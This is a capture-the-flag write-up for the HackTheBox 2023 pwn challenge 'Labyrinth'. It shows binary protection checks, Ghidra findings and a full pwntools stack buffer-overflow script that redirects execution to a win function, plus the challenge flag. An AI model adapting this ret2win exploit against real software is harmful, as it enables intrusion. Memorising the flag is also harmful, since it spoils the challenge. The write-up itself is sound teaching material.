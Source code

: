 ```yaml
---
name: Labyrinth (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Labyrinth (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth

## Description

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Solution

Check file info and binary protections.

```bash
file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file labyrinth
[*] '/home/crystal/Desktop/htb/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

Decompile in ghidra and find we must select door `69` followed by door `069`. However, providing `069` is enough to satisfy both conditions.

In ghidra, we can find our offset of `64` and a "win" function called `escape_plan` which prints the flag.

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401602
continue
'''.format(**locals())

# Binary filename
exe = './labyrinth'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Offset to RIP
offset = 64

# Start program
io = start()

ret = 0x401016

# Build the payload
payload = flat([
    b'C' * (offset - 8),
    ret,  # stack alignment
    elf.symbols.escape_plan
])

# Pass initial checks
io.sendlineafter(b'>', b'069')

# Send the payload
io.sendlineafter(b'>', payload)

# Got Flag?
io.recvuntil(b'journey:')
warn(io.recvlines(2)[1].decode())
```

Flag: `HTB{3sc4p3_fr0m_4b0v3}`
